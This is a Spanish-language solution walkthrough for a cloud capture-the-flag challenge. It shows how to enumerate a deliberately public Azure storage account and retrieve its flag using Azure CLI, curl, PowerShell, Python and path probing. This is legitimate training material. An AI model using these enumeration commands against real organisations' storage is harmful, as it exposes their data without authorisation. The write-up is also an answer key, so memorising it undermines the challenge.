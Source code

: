 # Challenge 01 - Azure Public Storage Solution

## Solución del Desafío

### Paso a Paso para Candidatos

Una vez que tengas los outputs del despliegue de Terraform, sigue estos pasos para enumerar el Azure Storage Account y obtener la flag:

#### Información Disponible
Con base en los outputs de Terraform, tienes:
```
azure_flag_url = "https://ctf25sa9ed81dc6.z13.web.core.windows.net/flag.txt"
azure_storage_account_name = "ctf25sa9ed81dc6"
azure_storage_website_endpoint = "https://ctf25sa9ed81dc6.z13.web.core.windows.net/"
```

#### Método 1: Enumeración con Azure CLI (Recomendado)

**Paso 1: Listar blobs del container**
```bash
# Listar todos los blobs en el container público
az storage blob list --account-name ctf25sa9ed81dc6 --container-name '$web' --output table --auth-mode login

# Alternativamente, sin autenticación (acceso público)
az storage blob list --account-name ctf25sa9ed81dc6 --container-name '$web' --output table
```

**Paso 2: Descargar y ver el contenido de la flag**
```bash
# Descargar la flag directamente
az storage blob download --account-name ctf25sa9ed81dc6 --container-name '$web' --name flag.txt --file flag.txt --auth-mode login

# Ver contenido
cat flag.txt

# O descargar directamente a stdout
az storage blob download --account-name ctf25sa9ed81dc6 --container-name '$web' --name flag.txt --file /dev/stdout --auth-mode login
```

**Paso 3: Verificar otros archivos (opcional)**
```bash
# Ver el contenido del index.html
az storage blob download --account-name ctf25sa9ed81dc6 --container-name '$web' --name index.html --file /dev/stdout --auth-mode login
```

#### Método 2: Acceso Web Directo

**Paso 1: Acceder al sitio web**
```bash
# Usar curl para acceder al endpoint web
curl https://ctf25sa9ed81dc6.z13.web.core.windows.net/

# O abrir en navegador
open https://ctf25sa9ed81dc6.z13.web.core.windows.net/
```

**Paso 2: Acceder directamente a la flag**
```bash
# Descargar la flag vía HTTPS
curl https://ctf25sa9ed81dc6.z13.web.core.windows.net/flag.txt

# O usar wget
wget -O - https://ctf25sa9ed81dc6.z13.web.core.windows.net/flag.txt
```

#### Método 3: Enumeración con Azure Storage Explorer

**Usando Azure Storage Explorer (GUI):**
1. Descargar e instalar Azure Storage Explorer
2. Conectar usando "Add a resource via URL"
3. URL: `https://ctf25sa9ed81dc6.blob.core.windows.net/`
4. Navegar al container `$web`
5. Descargar `flag.txt`

#### Método 4: Enumeración con herramientas de terceros

**Usando PowerShell (Windows/Linux/macOS):**
```powershell
# Instalar módulo Azure Storage si no está disponible
Install-Module -Name Az.Storage -Force

# Crear contexto de storage sin autenticación
$ctx = New-AzStorageContext -StorageAccountName "ctf25sa9ed81dc6" -Anonymous

# Listar blobs en el container
Get-AzStorageBlob -Container '$web' -Context $ctx

# Salida esperada:
# Name         BlobType  Length  ContentType   LastModified         AccessTier
# ----         --------  ------  -----------   ------------         ----------
# flag.txt     BlockBlob 42      text/plain    2025-09-12 20:01:37Z Hot
# index.html   BlockBlob 13168   text/html     2025-09-12 20:01:37Z Hot

# Descargar flag a archivo local
Get-AzStorageBlobContent -Container '$web' -Blob "flag.txt" -Destination "./flag.txt" -Context $ctx

# Ver contenido de la flag
Get-Content "./flag.txt"

# Método alternativo: Descargar directamente con Invoke-WebRequest
$flagContent = Invoke-WebRequest -Uri "https://ctf25sa9ed81dc6.z13.web.core.windows.net/flag.txt"
Write-Output "Flag: $($flagContent.Content)"

# O usar el endpoint blob directo
$flagContent = Invoke-WebRequest -Uri "https://ctf25sa9ed81dc6.blob.core.windows.net/`$web/flag.txt"
Write-Output "Flag: $($flagContent.Content)"
```

**Usando Python con azure-storage-blob:**
```python
from azure.storage.blob import BlobServiceClient

# Cliente sin autenticación para acceso público
account_url = "https://ctf25sa9ed81dc6.blob.core.windows.net"
blob_service_client = BlobServiceClient(account_url=account_url)

# Listar blobs en el container $web
container_client = blob_service_client.get_container_client('$web')
blob_list = container_client.list_blobs()

print("Blobs encontrados:")
for blob in blob_list:
    print(f"- {blob.name} ({blob.size} bytes)")

# Descargar flag
blob_client = blob_service_client.get_blob_client(container='$web', blob='flag.txt')
flag_content = blob_client.download_blob().readall().decode('utf-8')
print(f"Flag: {flag_content}")
```

#### Método 5: Enumeración Manual con Browser

1. **Acceder al storage account via navegador:**
   - URL: `https://ctf25sa9ed81dc6.z13.web.core.windows.net/`
   - Explorar el contenido disponible

2. **Acceso directo a la flag:**
   - URL: `https://ctf25sa9ed81dc6.z13.web.core.windows.net/flag.txt`

3. **Explorar estructura de URLs:**
   - Probar diferentes paths como `/admin/`, `/config/`, `/backup/`
   - Buscar archivos comunes como `robots.txt`, `sitemap.xml`

### Comandos de Verificación

**Verificar configuración del storage account:**
```bash
# Obtener propiedades del storage account
az storage account show --name ctf25sa9ed81dc6 --query "{name:name, kind:kind, accessTier:accessTier, allowBlobPublicAccess:allowBlobPublicAccess}"

# Verificar configuración de sitio web estático
az storage blob service-properties show --account-name ctf25sa9ed81dc6 --services b --query "staticWebsite"

# Verificar permisos del container
az storage container show --name '$web' --account-name ctf25sa9ed81dc6 --query "{name:name, publicAccess:properties.publicAccess}"
```

**Verificar accesibilidad sin autenticación:**
```bash
# Probar acceso directo a blobs
curl -I https://ctf25sa9ed81dc6.blob.core.windows.net/\$web/flag.txt

# Verificar headers de respuesta
curl -v https://ctf25sa9ed81dc6.z13.web.core.windows.net/flag.txt
```

### Formato de la Flag
```
CLD[UUID]
```

### Puntos de Aprendizaje

1. **Azure Storage público**: Los containers con acceso público permiten enumeración sin autenticación
2. **Static website hosting**: Los storage accounts configurados para hosting estático son accesibles vía HTTPS
3. **Container $web**: Azure usa el container especial `$web` para hosting de sitios web estáticos
4. **Múltiples métodos de acceso**: Azure CLI, REST API, PowerShell, Python, navegador web
5. **Sin autenticación**: Los recursos públicos no requieren credenciales de Azure

## Troubleshooting de Enumeración

### Problemas Comunes

**Error: "StorageAccountNotFound" al enumerar**
```bash
# Verificar que el storage account existe
az storage account show --name ctf25sa9ed81dc6

# Si falla, verificar el nombre exacto en los outputs de Terraform
terraform output azure_storage_account_name
```

**Error: "Access Denied" durante enumeración**
```bash
# Verificar si el container permite acceso público
az storage container show --name '$web' --account-name ctf25sa9ed81dc6

# Intentar acceso web directo si Azure CLI falla
curl -I https://ctf25sa9ed81dc6.z13.web.core.windows.net/
```

**Error: "SSL Certificate" con herramientas de terceros**
```bash
# Para curl, verificar certificados
curl --insecure https://ctf25sa9ed81dc6.z13.web.core.windows.net/flag.txt

# Verificar conectividad básica
nslookup ctf25sa9ed81dc6.z13.web.core.windows.net
```

**Timeout o conexión lenta**
```bash
# Verificar conectividad básica
ping ctf25sa9ed81dc6.z13.web.core.windows.net

# Usar región específica si hay problemas
az storage blob list --account-name ctf25sa9ed81dc6 --container-name '$web' --output table --query "[].{Name:name, Size:properties.contentLength}"
```

**Flag no encontrada**
```bash
# Listar todos los blobs para verificar estructura
az storage blob list --account-name ctf25sa9ed81dc6 --container-name '$web' --output table

# Verificar si la flag está en otros containers
az storage container list --account-name ctf25sa9ed81dc6 --output table

# Buscar archivos que contengan "flag" en el nombre
az storage blob list --account-name ctf25sa9ed81dc6 --container-name '$web' --output table | grep -i flag
```
